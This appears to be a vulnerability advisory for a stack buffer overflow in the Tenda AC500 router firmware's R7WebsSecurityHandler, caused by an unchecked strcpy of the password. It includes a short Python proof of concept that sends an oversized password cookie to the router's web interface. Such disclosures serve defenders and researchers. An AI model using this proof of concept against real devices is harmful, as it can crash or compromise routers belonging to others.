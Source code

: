 ## Overview

- Firmware download website: https://www.tenda.com.cn/download/detail-2470.html

## Affected version

AC500 V2.0.1.9(1307)

## Vulnerability details

The Tenda AC500 V2.0.1.9(1307) firmware has a stack overflow vulnerability in the `R7WebsSecurityHandler` function. The `src` variable receives the `password` parameter from a POST request and is later assigned to the `v19` variable, which is fixed at 128 bytes. However, since the user can control the input of `password`, the statement `strcpy(v19, src);` can cause a buffer overflow. The user-provided  `password` can exceed the capacity of the `v19` array, triggering this security vulnerability.

![image-20240319133933045](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240319133933045.png)

![image-20240319133855725](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240319133855725.png)

## POC

```python
import requests

ip = "192.168.84.101"
url = "http://%s/goform/execCommand"%ip
cookie = {"Cookie":"password=" + "A"*1000}
ret = requests.get(url=url,cookies=cookie)
print(ret.text)
```

![](https://github.com/abcdefg-png/images2/blob/main/image-20240410100105349.png)
